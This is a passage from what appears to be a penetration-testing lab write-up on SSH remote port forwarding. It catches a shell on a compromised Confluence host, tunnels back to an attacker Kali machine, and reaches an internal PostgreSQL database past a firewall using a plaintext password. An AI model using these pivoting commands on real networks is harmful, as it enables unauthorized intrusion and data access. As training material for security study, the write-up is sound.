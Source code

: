 {% tab title="2. Tunelling" %}
Create the remote port forwarding on `CONFULENCE01`.

{% code overflow="wrap" %}
```bash
$ nc -lvnp 4444
...
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty;pty.spawn("/bin/sh")'
...
$ ssh -N -R 127.0.0.1:2345:10.4.125.215:5432 kali@192.168.45.219
...
```
{% endcode %}
{% endtab %}

{% tab title="3. Confirm" %}
This creates a tunnel where connections to `127.0.0.1:2345` on Kali are forwarded to PostgreSQL on `PGDATABASE01` via the SSH connection from `CONFLUENCE01`.

```bash
$ sudo netstat -antp | grep 2345
tcp        0      0 127.0.0.1:2345  0.0.0.0:*  LISTEN  292/sshd-session: x
```
{% endtab %}

{% tab title="4. Connect" %}
Use `psql` on Kali to connect to `127.0.0.1:2345` as if we’re directly connected to the database — bypassing the firewall.

{% code overflow="wrap" %}
```bash
$ psql -h 127.0.0.1 -p 2345 -U postgres
Password for user postgres: # D@t4basePassw0rd!
<SNIP>

postgres=# 
```
{% endcode %}
{% endtab %}
{% endtabs %}

<figure><img src="https://x7331.gitbook.io/~gitbook/image?url=https%3A%2F%2F3960676229-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FmjLkek16kB60c2WFd5lf%252Fuploads%252FUzR2Z6993h8OSEFjYMVA%252Fremote_port_forwarding_1.png%3Falt%3Dmedia%26token%3D18e9aad2-3ad8-4bae-a6cb-59f09a1b6a6e&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=b327f1a3&#x26;sv=2" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
### Why Remote Port Forwarding?

* **Dynamically access internal services from an external pivot point**
* Bypass inbound firewall rules that block direct connections
* Maintain control by reversing the connection direction (outbound from compromised host)
{% endhint %}

## Remote Dynamic

**Remote Dynamic Port Forwarding** has only been available since **OpenSSH 7.6 (October 2017)**.\
The good news? **Only the OpenSSH client needs to be v7.6+** — the server version doesn’t matter. In our scenario:
